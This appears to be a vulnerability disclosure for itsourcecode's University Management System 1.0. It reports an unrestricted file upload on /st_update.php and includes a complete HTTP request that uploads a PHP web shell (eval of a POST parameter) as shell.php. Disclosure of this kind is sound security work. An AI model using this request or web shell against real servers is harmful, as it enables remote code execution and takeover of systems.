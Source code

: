 # Vendor

itsourcecode

# Product

University Management System

# version

1.0

Download Source Code: https://itsourcecode.com/wp-content/uploads/2022/01/University-Management-System-Project-In-PHP-Source-Code.zip

# Description
Register and log in with a student account。When visiting the /st_update.php?id=123321 page, the value corresponding to id is StudentID. You can upload an avatar file, but the page does not impose any restrictions on the uploaded files, resulting in attackers being able to directly upload PHP trojan files.

# Analysis
The /st_update.php page does not restrict the files that are uploaded.
<img width="1397" alt="image" src="https://github.com/user-attachments/assets/3247ff72-4189-4e15-8b35-8dc0aa73b6d0">

---
POST /st_update.php?id=123321 HTTP/1.1
Host: 192.168.17.24
Content-Length: 937
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.17.24
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryX0kAumwGMjeexhTk
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.17.24/st_update.php?id=123321
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: current_lang=zh; accept_cookie=true; _nss=1; PHPSESSID=48q57aq6nov1rqea73sklhccae
Connection: close

------WebKitFormBoundaryX0kAumwGMjeexhTk
Content-Disposition: form-data; name="personal_image"; filename="shell.php"
Content-Type: text/php

<?php eval($_POST["cmd"]);?>

------WebKitFormBoundaryX0kAumwGMjeexhTk
Content-Disposition: form-data; name="st_name"

mirage
------WebKitFormBoundaryX0kAumwGMjeexhTk
Content-Disposition: form-data; name="st_email"

mirage@google.com
------WebKitFormBoundaryX0kAumwGMjeexhTk
Content-Disposition: form-data; name="st_dept"

BBA
------WebKitFormBoundaryX0kAumwGMjeexhTk
Content-Disposition: form-data; name="st_contact"

12343212421
------WebKitFormBoundaryX0kAumwGMjeexhTk
Content-Disposition: form-data; name="st_gender"

Male
------WebKitFormBoundaryX0kAumwGMjeexhTk
Content-Disposition: form-data; name="st_add"

hangzhou
------WebKitFormBoundaryX0kAumwGMjeexhTk
Content-Disposition: form-data; name="Update"

Update
------WebKitFormBoundaryX0kAumwGMjeexhTk--
